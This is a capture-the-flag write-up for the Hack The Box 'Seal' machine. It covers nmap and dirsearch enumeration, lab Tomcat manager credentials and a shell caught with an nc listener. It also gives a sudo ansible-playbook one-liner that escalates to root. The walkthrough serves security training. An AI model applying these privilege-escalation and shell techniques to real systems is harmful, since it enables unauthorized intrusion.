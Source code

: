 # Seal

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Wed Jul 14 18:25:26 2021 as: nmap -v -sC -sV -oN scan 10.129.183.174
	Increasing send delay for 10.129.183.174 from 0 to 5 due to 31 out of 101 dropped probes since last increase.
	Nmap scan report for 10.129.183.174
	Host is up (0.32s latency).
	Not shown: 997 closed ports
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
	|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
	|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
	443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Seal Market
	| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2021-05-05T10:24:03
	| Not valid after:  2022-05-05T10:24:03
	| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
	|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
	| tls-alpn: 
	|_  http/1.1
	| tls-nextprotoneg: 
	|_  http/1.1
	8080/tcp open  http-proxy
	| fingerprint-strings: 
	|   FourOhFourRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:54 GMT
	|     Set-Cookie: JSESSIONID=node016q2txdyyt12gbw7kslacd2xd2.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   GetRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:51 GMT
	|     Set-Cookie: JSESSIONID=node01drdcpbxvdm3f121yjt90r3s3t0.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   HTTPOptions: 
	|     HTTP/1.1 200 OK
	|     Date: Wed, 14 Jul 2021 12:58:52 GMT
	|     Set-Cookie: JSESSIONID=node0menw8751ecl0qf3pfh23ccd1.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Allow: GET,HEAD,POST,OPTIONS
	|     Content-Length: 0
	|   RPCCheck: 
	|     HTTP/1.1 400 Illegal character OTEXT=0x80
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 71
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
	|   RTSPRequest: 
	|     HTTP/1.1 505 Unknown Version
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 58
	|     Connection: close
	|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
	|   Socks4: 
	|     HTTP/1.1 400 Illegal character CNTL=0x4
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
	|   Socks5: 
	|     HTTP/1.1 400 Illegal character CNTL=0x5
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
	| http-auth: 
	| HTTP/1.1 401 Unauthorized\x0D
	|_  Server returned status 401 but no WWW-Authenticate header.
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Site doesn't have a title (text/html;charset=utf-8).
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at s



	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Wed Jul 14 18:26:44 2021 -- 1 IP address (1 host up) scanned in 78.67 seconds


On port 8080 we got tomcat credentials

	<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
		</tomcat-users>


#### Dirsearch

```bash
┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ dirsearch -u https://seal.htb                                               
/home/arundhanush/.local/lib/python3.9/site-packages/requests/__init__.py:89: Re version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1                                                
 (_||| _) (/_(_|| (_| )                                                         
                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist

Output File: /home/arundhanush/.dirsearch/reports/seal.htb/_21-09-05_09-53-12.tx

Error Log: /home/arundhanush/.dirsearch/logs/errors-21-09-05_09-53-12.log

Target: https://seal.htb/
                                                                                
	[09:53:19] Starting: 
	[09:53:28] 302 -    0B  - /js  ->  http://seal.htb/js/
	[09:54:07] 400 -  804B  - /\..\..\..\..\..\..\..\..\..\etc\passwd      
	[09:54:10] 400 -  804B  - /a%5c.aspx                                      
	[09:54:14] 302 -    0B  - /admin  ->  http://seal.htb/admin/                   
	[09:54:44] 302 -    0B  - /css  ->  http://seal.htb/css/                       
	[09:54:55] 302 -    0B  - /host-manager/  ->  http://seal.htb/host-manager/html
	[09:54:55] 403 -  564B  - /host-manager/html
	[09:54:56] 302 -    0B  - /icon  ->  http://seal.htb/icon/                   
	[09:54:57] 302 -    0B  - /images  ->  http://seal.htb/images/                 
	[09:54:58] 200 -   19KB - /index.html                                    
	[09:55:05] 403 -  564B  - /manager/html/                                      
	[09:55:05] 403 -  564B  - /manager/html
	[09:55:05] 302 -    0B  - /manager/  ->  http://seal.htb/manager/html
	[09:55:05] 401 -    2KB - /manager/status/all          
	[09:55:06] 302 -    0B  - /manager  ->  http://seal.htb/manager/     
	                                                                            
	Task Completed      
```

In this dirsearch /manager/status/all is tomcat lets login with our crendentials

Its tomcat/9.0.31 vulnerable to path traversal we have to upload a file  

```bash
┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ nc -nlvp 1234                                                                                                                                               130 ⨯
Listening on 0.0.0.0 1234
Connection received on 10.10.10.250 42398
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$    
```

## Privesc

	luis@seal:~$ sudo -l
	Matching Defaults entries for luis on seal:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User luis may run the following commands on seal:
	    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
	luis@seal:~$ TF=$(mktemp)
	luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
	luis@seal:~$ sudo ansible-playbook $TF
	[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

	PLAY [localhost] *****************************************************************************************************************************************************

	TASK [Gathering Facts] ***********************************************************************************************************************************************
	ok: [localhost]

	TASK [shell] *********************************************************************************************************************************************************
	# id
	uid=0(root) gid=0(root) groups=0(root)
	
## Rooted
